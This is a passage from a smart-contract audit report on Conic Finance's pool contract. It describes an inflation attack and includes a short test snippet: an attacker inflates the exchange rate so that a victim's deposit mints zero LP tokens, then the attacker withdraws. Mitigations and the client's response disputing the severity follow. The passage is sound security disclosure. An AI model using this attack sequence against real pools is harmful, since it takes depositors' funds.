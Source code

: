 - https://github.com/ConicFinance/protocol/blob/7a66d26ef84f93059a811a189655e17c11d95f5c/contracts/BaseConicPool.sol#L290

When creating a pool, the user has an option to change the `exchangeRate` directly by sending tokens to ConicPool.

Test example:

```
vm.startPrank(bb8); # hacker is setting `exchangeRate`
conicPool.deposit(2, 0, false);
underlying.transfer(address(conicPool), 2 * 10 ** 18);
vm.stopPrank();

# now totalSupply = 1, 
# exchangeRate = 2000000000000000001000000000000000000 (~10**36)

# victims try to deposit to ConicPool and will get zero lp tokens
vm.startPrank(r2); 
underlying.approve(address(conicPool), 10 ** 18);
conicPool.deposit(10 ** 18, 0, false);
vm.stopPrank();

vm.startPrank(bb8); # withdraw all tokens from pool by hacker
conicPool.withdraw(1, 0);
```

This way an attacker can make the use of omnipool unprofitable at the very beginning.

##### Recommendation

There are different approaches on how to solve the Inflation Attack problem. Some of the approaches along with their pros and cons, can be found in the OpenZeppelin github issue: https://github.com/OpenZeppelin/openzeppelin-contracts/issues/3706.

One way to resolve the problem is to use virtual dead shares, as implemented in the latest OpenZeppelin ERC-4626 vault:
* https://github.com/OpenZeppelin/openzeppelin-contracts/blob/51294b7480fd13e716207a621ac1d55a6290d56d/contracts/token/ERC20/extensions/ERC4626.sol#L200
* https://github.com/OpenZeppelin/openzeppelin-contracts/blob/51294b7480fd13e716207a621ac1d55a6290d56d/contracts/token/ERC20/extensions/ERC4626.sol#L207

In case this particular fix is chosen, it is recommended to use a virtual offset of 1000 ([which is the same number used in Uniswap V2](https://github.com/Uniswap/v2-core/blob/ee547b17853e71ed4e0101ccfd52e70d5acded58/contracts/UniswapV2Pair.sol#L120)), as this will make the residual possibility of griefing practically unattainable.

However, one of the simplest solutions is making a deposit immediately after the deployment so that the `exchangeRate` is adjusted.

##### Client's commentary
> This issue can be easily prevented by seeding the pool immediately after it is deployed.
For all pools we deploy, we follow that approach.
We would only add the pool to the controller after it is seeded.
Therefore, we chose not to implement any additional changes to address this potential issue.
Given that this issue can only occur in a fairly unlikely scenario and cannot affect the protocol as we check the pool before adding it, we disagree with the severity rating of this issue and believe it should be low severity (impact: low, likelihood: low).
